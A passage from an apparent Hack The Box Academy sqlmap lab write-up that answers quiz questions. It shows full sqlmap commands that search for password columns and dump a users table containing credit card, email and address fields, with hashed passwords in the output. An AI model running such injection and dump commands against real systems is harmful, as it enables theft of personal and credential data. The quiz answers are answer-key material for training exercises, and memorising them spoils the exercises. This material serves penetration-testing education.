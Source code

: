**Answer**

```
PARAMETER_STYLE
```

#### Question #09

**Question**

What's the Kimberly user's password? (Case #1)

```javascript
--batch --search -C pass
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-ghcrxfwbqc]─[~]
└──╼ [★]$ sqlmap 'http://94.237.60.55:55207/case1.php?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.60.55:55207/case1.php' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch --search -C pass

[SNIP]

Database: testdb                                                                                                                                      
Table: users
[32 entries]
+-------------------------------------------------------------+
| password                                                    |
+-------------------------------------------------------------+
| 9a0f092c8d52eaf3ea423cef8485702ba2b3deb9 (3052)             |
| 10946aa229a6d569f226976b22ea0e900a1fc219                    |

[SNIP]
```

```javascript
--batch -D testdb -T users --dump
```

```
┌─[eu-academy-1]─[10.10.15.8]─[htb-ac-1461567@htb-ghcrxfwbqc]─[~]
└──╼ [★]$ sqlmap 'http://94.237.60.55:55207/case1.php?id=1*' --compressed -H 'User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:128.0) Gecko/20100101 Firefox/128.0' -H 'Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/png,image/svg+xml,*/*;q=0.8' -H 'Accept-Language: en-US,en;q=0.5' -H 'Accept-Encoding: gzip, deflate' -H 'Referer: http://94.237.60.55:55207/case1.php' -H 'DNT: 1' -H 'Connection: keep-alive' -H 'Upgrade-Insecure-Requests: 1' -H 'Sec-GPC: 1' -H 'Priority: u=0, i' --batch -D testdb -T users --dump

[SNIP]

Database: testdb
Table: users
[32 entries]
+----+------------------+-----------------------------+--------------+-------------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+
| id | cc               | email                       | phone        | name              | address                | birthday          | password                                                    | occupation                                        |
+----+------------------+-----------------------------+--------------+-------------------+------------------------+-------------------+-------------------------------------------------------------+---------------------------------------------------+

[SNIP]
```